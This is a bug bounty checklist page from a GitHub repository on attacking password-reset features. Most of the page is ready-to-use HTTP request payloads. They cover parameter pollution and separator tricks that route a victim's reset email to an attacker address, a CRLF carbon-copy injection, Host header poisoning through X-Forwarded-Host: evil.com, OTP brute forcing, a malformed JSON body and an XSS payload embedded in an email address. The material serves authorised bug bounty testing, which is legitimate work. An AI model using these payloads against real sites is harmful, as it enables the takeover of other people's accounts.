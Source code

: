 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Checklist/Forgot%20Password.md#introduction)

Some common bugs in the forgot password / reset password functionality

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Checklist/Forgot%20Password.md#how-to-exploit)

1. Parameter pollution

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```

3. Host header Injection

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```

to

```
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```

And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. No TLD in value of the parameter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. Using carbon copy

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma

```
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate

- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

10. Try Cross-Site Scripting (XSS) in the form

Sometimes the email is reflected in the forgot password page, try to use XSS payload

```
"<svg/onload=alert(1)>"@gmail.com
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Checklist/Forgot%20Password.md#references)

- [anugrahsr](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
- [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)


